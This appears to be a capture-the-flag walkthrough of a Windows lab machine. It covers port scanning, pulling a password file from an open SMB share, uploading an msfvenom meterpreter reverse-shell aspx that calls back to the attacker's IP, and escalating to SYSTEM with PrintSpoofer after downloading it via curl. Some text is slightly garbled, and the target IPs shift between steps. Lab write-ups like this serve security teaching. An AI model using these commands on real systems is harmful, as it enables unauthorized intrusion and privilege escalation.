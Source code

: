 we start by enumerating the ports with a classical nmap:

	namp -p- 10.10.188.86

output:

	80/tcp    open  http          Microsoft IIS httpd 10.0
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-server-header: Microsoft-IIS/10.0
	|_http-title: IIS Windows Server
	135/tcp   open  msrpc         Microsoft Windows RPC
	139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp   open  ЅwKwU        Windows Server 2016 Standard Evaluation 14393 microsoft-ds
	3389/tcp  open  ms-wbt-server Microsoft Terminal Services
	| ssl-cert: Subject: commonName=Relevant
	| Not valid before: 2023-09-14T13:26:58
	|_Not valid after:  2024-03-15T13:26:58
	|_ssl-date: 2023-09-15T14:03:21+00:00; +3s from scanner time.
	| rdp-ntlm-info: 
	|   Target_Name: RELEVANT
	|   NetBIOS_Domain_Name: RELEVANT
	|   NetBIOS_Computer_Name: RELEVANT
	|   DNS_Domain_Name: Relevant
	|   DNS_Computer_Name: Relevant
	|   Product_Version: 10.0.14393
	|_  System_Time: 2023-09-15T14:02:42+00:00
	49663/tcp open  http          Microsoft IIS httpd 10.0
	|_http-server-header: Microsoft-IIS/10.0
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-title: IIS Windows Server
	49667/tcp open  msrpc         Microsoft Windows RPC
	49669/tcp open  msrpc         Microsoft Windows RPC

There is an SMB open, we can enumerate it with the following command:

	smbclient -L \\\\10.10.188.86\\

output: 

	nt4wrksv /it's the only share available/

we can try to connect it with:

	smbclient \\\\10.10.188.86\\nt4wrksv 

output:

	passwords.txt

we get it and we read inside the .txt:

	get passwords.txt

inside there is a base64 credential, we need to decode it in UTF-8:

	Bill /Redacted/

after many tries there isn't any possible way to use these credentials, so I take some steps back and I try to enumerate the directories on the webserver running in the ports _80_ and _49663_ with the comand below:

	feroxbuster -u http://10.10.89.68:49663/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50

there isn't anything but I notice that I can upload files on smb, my idea it was to upload a _reverse.aspx_ and view it in the browser, let's to create the revshell:

	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.98.143 LPORT=4444 -f aspx -o reverse.aspx

we create the revshell now we upload it and we start the listener:

	smbclient \\\\10.10.188.86\\nt4wrksv 
	put ./reverse.aspx

	msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.8.98.143; set lport 4444; exploit"

now it's time to browse this url __http://10.10.173.140:49663/nt4wrksv/reverse.aspx__, we achieve it and we can retrieve the user flag, now it's time to do some privesc and retrieve the root flag.

I use the following command to see my privileges:

	whoami /priv

output:

	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
	SeCreateGlobalPrivilege       Create global objects                     Enabled

the most interesting is the second one indeed after some researches there is an executable file (_PrintSpoofer64.exe_) in order to achieve the SYSTEM account

we upload it on the target machine:

	python3 -m http.server 80 #we run a python webserver

	curl -o .\printspoof.exe http://10.8.98.143/PrintSpoofer64.exe

now. we can run it:

	 PrintSpoofer64.exe -i -c cmd

we're SYSTEM and we can retrieve the root flag.